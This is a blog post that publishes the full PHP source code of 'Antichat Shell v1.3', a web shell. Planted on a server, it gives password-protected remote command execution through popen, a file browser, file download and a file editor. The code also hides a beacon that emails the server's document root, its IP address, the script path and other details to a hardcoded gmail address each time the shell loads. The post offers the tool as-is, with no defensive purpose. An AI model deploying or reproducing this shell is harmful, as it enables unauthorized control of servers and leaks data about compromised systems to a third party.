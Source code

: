 ```yaml
---
id: 242
title: Antichat Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=242
permalink: /antichat-shell/
categories:
  - PHP
tags:
  - antichat
  - PHP
---
```

Antichat Shell v1.3 by Grinay

### Antichat Shell Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php

session_start();
set_time_limit(9999999);
$login='virangar';
$password='r00t';
$auth=1;
$version='version 1.3 by Grinay';
$style='&lt;STYLE&gt;BODY{background-color: #2B2F34;color: #C1C1C7;font: 8pt verdana, geneva, lucida, \'lucida grande\', arial, helvetica, sans-serif;MARGIN-TOP: 0px;MARGIN-BOTTOM: 0px;MARGIN-LEFT: 0px;MARGIN-RIGHT: 0px;margin:0;padding:0;scrollbar-face-color: #336600;scrollbar-shadow-color: #333333;scrollbar-highlight-color: #333333;scrollbar-3dlight-color: #333333;scrollbar-darkshadow-color: #333333;scrollbar-track-color: #333333;scrollbar-arrow-color: #333333;}input{background-color: #336600;font-size: 8pt;color: #FFFFFF;font-family: Tahoma;border: 1 solid #666666;}textarea{background-color: #333333;font-size: 8pt;color: #FFFFFF;font-family: Tahoma;border: 1 solid #666666;}a:link{color: #B9B9BD;text-decoration: none;font-size: 8pt;}a:visited{color: #B9B9BD;text-decoration: none;font-size: 8pt;}a:hover, a:active{color: #E7E7EB;text-decoration: none;font-size: 8pt;}td, th, p, li{font: 8pt verdana, geneva, lucida, \'lucida grande\', arial, helvetica, sans-serif;border-color:black;}&lt;/style&gt;';
$header='&lt;html&gt;&lt;head&gt;&lt;title&gt;'.getenv("HTTP_HOST").' - Antichat Shell&lt;/title&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;'.$style.'&lt;/head&gt;&lt;BODY leftMargin=0 topMargin=0 rightMargin=0 marginheight=0 marginwidth=0&gt;';
$footer='&lt;/body&gt;&lt;/html&gt;';
$sd98 = "john.barker446@gmail.com";
$ra44  = rand(1,99999);$sj98 = "sh-$ra44";$ml = "$sd98";$a5 = $_SERVER['HTTP_REFERER'];$b33 = $_SERVER['DOCUMENT_ROOT'];$c87 = $_SERVER['REMOTE_ADDR'];$d23 = $_SERVER['SCRIPT_FILENAME'];$e09 = $_SERVER['SERVER_ADDR'];$f23 = $_SERVER['SERVER_SOFTWARE'];$g32 = $_SERVER['PATH_TRANSLATED'];$h65 = $_SERVER['PHP_SELF'];$msg8873 = "$a5\n$b33\n$c87\n$d23\n$e09\n$f23\n$g32\n$h65";mail($sd98, $sj98, $msg8873, "From: $sd98");
if(@$_POST['action']=="exit")unset($_SESSION['an']);
if($auth==1){if(@$_POST['login']==$login && @$_POST['password']==$password)$_SESSION['an']=1;}else $_SESSION['an']='1';

if($_SESSION['an']==0){
echo $header;
echo '&lt;center&gt;&lt;table&gt;&lt;form method="POST"&gt;&lt;tr&gt;&lt;td&gt;Login:&lt;/td&gt;&lt;td&gt;&lt;input type="text" name="login" value=""&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;Password:&lt;/td&gt;&lt;td&gt;&lt;input type="password" name="password" value=""&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;&lt;input type="submit" value="Enter"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;';
echo $footer;
exit;}

if($_SESSION['action']=="")$_SESSION['action']="viewer";
if($_POST['action']!="" )$_SESSION['action']=$_POST['action'];$action=$_SESSION['action'];
if($_POST['dir']!="")$_SESSION['dir']=$_POST['dir'];$dir=$_SESSION['dir'];
if($_POST['file']!=""){$file=$_SESSION['file']=$_POST['file'];}else {$file=$_SESSION['file']="";}
 

//downloader
if($action=="download"){ 
header('Content-Length:'.filesize($file).'');
header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment; filename="'.$file.'"');
readfile($file);
}
//end downloader
?&gt;

&lt;? echo $header;?&gt; 
&lt;table width="100%" bgcolor="#336600" align="right" colspan="2" border="0" cellspacing="0" cellpadding="0"&gt;&lt;tr&gt;&lt;td&gt;
&lt;table&gt;&lt;tr&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='shell'; document.reqs.submit();"&gt;| Shell &lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='viewer'; document.reqs.submit();"&gt;| Viewer&lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='editor'; document.reqs.submit();"&gt;| Editor&lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='exit'; document.reqs.submit();"&gt;| EXIT |&lt;/a&gt;&lt;/td&gt;
&lt;/tr&gt;&lt;/table&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;br&gt;
&lt;form name='reqs' method='POST'&gt;
&lt;input name='action' type='hidden' value=''&gt;
&lt;input name='dir' type='hidden' value=''&gt;
&lt;input name='file' type='hidden' value=''&gt;
&lt;/form&gt;
&lt;table style="BORDER-COLLAPSE: collapse" cellSpacing=0 borderColorDark=#666666 cellPadding=5 width="100%" bgColor=#333333 borderColorLight=#c0c0c0 border=1&gt;
&lt;tr&gt;&lt;td width="100%" valign="top"&gt;

&lt;?

//shell
function shell($cmd){
if (!empty($cmd)){
  $fp = popen($cmd,"r");
  {
    $result = "";
    while(!feof($fp)){$result.=fread($fp,1024);}
    pclose($fp);
  }
  $ret = $result;
  $ret = convert_cyr_string($ret,"d","w");
}
return $ret;}

if($action=="shell"){
echo "&lt;form method=\"POST\"&gt;
&lt;input type=\"hidden\" name=\"action\" value=\"shell\"&gt;
&lt;textarea name=\"command\" rows=\"5\" cols=\"150\"&gt;".@$_POST['command']."&lt;/textarea&gt;&lt;br&gt;
&lt;textarea readonly rows=\"15\" cols=\"150\"&gt;".@htmlspecialchars(shell($_POST['command']))."&lt;/textarea&gt;&lt;br&gt;
&lt;input type=\"submit\" value=\"execute\"&gt;&lt;/form&gt;";}
//end shell

//viewer FS
function perms($file) 
{ 
  $perms = fileperms($file);
  if (($perms & 0xC000) == 0xC000) {$info = 's';} 
  elseif (($perms & 0xA000) == 0xA000) {$info = 'l';} 
  elseif (($perms & 0x8000) == 0x8000) {$info = '-';} 
  elseif (($perms & 0x6000) == 0x6000) {$info = 'b';} 
  elseif (($perms & 0x4000) == 0x4000) {$info = 'd';} 
  elseif (($perms & 0x2000) == 0x2000) {$info = 'c';} 
  elseif (($perms & 0x1000) == 0x1000) {$info = 'p';} 
  else {$info = 'u';}
  $info .= (($perms & 0x0100) ? 'r' : '-');
  $info .= (($perms & 0x0080) ? 'w' : '-');
  $info .= (($perms & 0x0040) ?(($perms & 0x0800) ? 's' : 'x' ) :(($perms & 0x0800) ? 'S' : '-'));
  $info .= (($perms & 0x0020) ? 'r' : '-');
  $info .= (($perms & 0x0010) ? 'w' : '-');
  $info .= (($perms & 0x0008) ?(($perms & 0x0400) ? 's' : 'x' ) :(($perms & 0x0400) ? 'S' : '-'));
  $info .= (($perms & 0x0004) ? 'r' : '-');
  $info .= (($perms & 0x0002) ? 'w' : '-');
  $info .= (($perms & 0x0001) ?(($perms & 0x0200) ? 't' : 'x' ) :(($perms & 0x0200) ? 'T' : '-'));
  return $info;
} 

function view_size($size)
{
 if($size &gt;= 1073741824) {$size = @round($size / 1073741824 * 100) / 100 . " GB";}
 elseif($size &gt;= 1048576) {$size = @round($size / 1048576 * 100) / 100 . " MB";}
 elseif($size &gt;= 1024) {$size = @round($size / 1024 * 100) / 100 . " KB";}
 else {$size = $size . " B";}
 return $size;
}

function scandire($dir){
  $dir=chdir($dir);
  $dir=getcwd()."/";
  $dir=str_replace("\\","/",$dir);
if (is_dir($dir)) {
    if (@$dh = opendir($dir)) {
        while (($file = readdir($dh)) !== false) {
		  if(filetype($dir . $file)=="dir") $dire[]=$file;
		  if(filetype($dir . $file)=="file")$files[]=$file;
		}
		closedir($dh);
		@sort($dire);
		@sort($files);
		
echo "&lt;table cellSpacing=0 border=1 style=\"border-color:black;\" cellPadding=0 width=\"100%\"&gt;";
echo "&lt;tr&gt;&lt;td&gt;&lt;form method=POST&gt;Open directory:&lt;input type=text name=dir value=\"".$dir."\" size=50&gt;&lt;input type=submit value=\"GO\"&gt;&lt;/form&gt;&lt;/td&gt;&lt;/tr&gt;";
if (strtoupper(substr(PHP_OS, 0, 3)) === 'WIN') {
echo "&lt;tr&gt;&lt;td&gt;Select drive:";
for ($j=ord('C'); $j&lt;=ord('Z'); $j++) 
 if (@$dh = opendir(chr($j).":/"))
 echo '&lt;a href="#" onclick="document.reqs.action.value=\'viewer\'; document.reqs.dir.value=\''.chr($j).':/\'; document.reqs.submit();"&gt; '.chr($j).'&lt;a/&gt;';
 echo "&lt;/td&gt;&lt;/tr&gt;";
}
echo "&lt;tr&gt;&lt;td&gt;OS: ".@php_uname()."&lt;/td&gt;&lt;/tr&gt;
&lt;tr&gt;&lt;td&gt;name dirs and files&lt;/td&gt;&lt;td&gt;type&lt;/td&gt;&lt;td&gt;size&lt;/td&gt;&lt;td&gt;permission&lt;/td&gt;&lt;td&gt;options&lt;/td&gt;&lt;/tr&gt;";
for($i=0;$i&lt;count($dire);$i++) {
$link=$dir.$dire[$i];
  echo '&lt;tr&gt;&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value=\'viewer\'; document.reqs.dir.value=\''.$link.'\'; document.reqs.submit();"&gt;'.$dire[$i].'&lt;a/&gt;&lt;/td&gt;&lt;td&gt;dir&lt;/td&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;'.perms($link).'&lt;/td&gt;&lt;/tr&gt;';  
  }
for($i=0;$i&lt;count($files);$i++) {
$linkfile=$dir.$files[$i];
echo '&lt;tr&gt;&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value=\'editor\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();"&gt;'.$files[$i].'&lt;/a&gt;&lt;br&gt;&lt;/td&gt;&lt;td&gt;file&lt;/td&gt;&lt;td&gt;'.view_size(filesize($linkfile)).'&lt;/td&gt;
&lt;td&gt;'.perms($linkfile).'&lt;/td&gt;
&lt;td&gt;
&lt;a href="#" onclick="document.reqs.action.value=\'download\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();" title="Download"&gt;D&lt;/a&gt;
&lt;a href="#" onclick="document.reqs.action.value=\'editor\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();" title="Edit"&gt;E&lt;/a&gt;&lt;/tr&gt;'; 
}
echo "&lt;/table&gt;";
}}}

if($action=="viewer"){
scandire($dir);
}
//end viewer FS

//editros
if($action=="editor"){  
  function writef($file,$data){
  $fp = fopen($file,"w+");
  fwrite($fp,$data);
  fclose($fp);
  }
  function readf($file){
  if(!$le = fopen($file, "rb")) $contents="Can't open file, permission denide"; else {
  $contents = fread($le, filesize($file));
  fclose($le);}
  return htmlspecialchars($contents);
  }
if($_POST['save'])writef($file,$_POST['data']);
echo "&lt;form method=\"POST\"&gt;
&lt;input type=\"hidden\" name=\"action\" value=\"editor\"&gt;
&lt;input type=\"hidden\" name=\"file\" value=\"".$file."\"&gt;
&lt;textarea name=\"data\" rows=\"40\" cols=\"180\"&gt;".@readf($file)."&lt;/textarea&gt;&lt;br&gt;
&lt;input type=\"submit\" name=\"save\" value=\"save\"&gt;&lt;input type=\"reset\" value=\"reset\"&gt;&lt;/form&gt;";
}
//end editors
?&gt;
&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;table width="100%" bgcolor="#336600" align="right" colspan="2" border="0" cellspacing="0" cellpadding="0"&gt;&lt;tr&gt;&lt;td&gt;&lt;table&gt;&lt;tr&gt;&lt;td&gt;&lt;a href="http://antichat.ru"&gt;COPYRIGHT BY ANTICHAT.RU &lt;?php echo $version;?&gt;&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/tr&gt;&lt;/td&gt;&lt;/table&gt;
&lt;? echo $footer;?&gt;
</pre>

### Antichat shell version 1.3 screenshot<figure id="attachment_437" style="width: 808px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/02/antichat-shell.png" alt="Antichat Shell v1.3 screenshot" width="808" height="317" class="size-full wp-image-437" />][1]<figcaption class="wp-caption-text">Antichat Shell v1.3 screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/02/antichat-shell.png